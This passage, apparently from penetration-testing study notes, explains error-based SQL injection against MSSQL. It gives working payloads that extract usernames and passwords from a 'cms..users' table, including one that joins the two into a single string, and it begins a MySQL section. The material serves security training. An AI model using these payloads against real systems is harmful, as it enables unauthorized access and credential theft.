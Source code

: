           * ![image-20210218075327344](images/image-20210218075327344.png)

        * After extracting all the ids,  we can use that information to extract all the usernames :

          * ```
            9999 OR 1 IN (SELECT TOP 1 CAST(username as varchar) FROM
            cms..users WHERE id=1); -- -
            ```

          * No string concatenation is needed here because *username data type is varchar*

          * Using the ids lets us correlate usernames and passwords by retrieving the password of a specific username

        * We can retrieve a password by using same payload like above

          * ```
            9999 OR 1 IN (SELECT TOP 1 CAST(password as varchar) FROM
            cms..users WHERE id=1); -- -
            ```

          * Or even *concatenate the username and the password!*

          * ```
            9999 OR 1 IN (SELECT username%2bchar(64)%2bpassword FROM
            cms..users WHERE id=1); -- -
            ```

          * > Notice => *username%2bchar(64)%2bpassword*  from above payload

* ### MySQL Error-Based SQLi Exploitation

  * To exploit error-based SQL Injection on MySQL, we will use *group by* statement
    * This statement groups the result set by one or more columns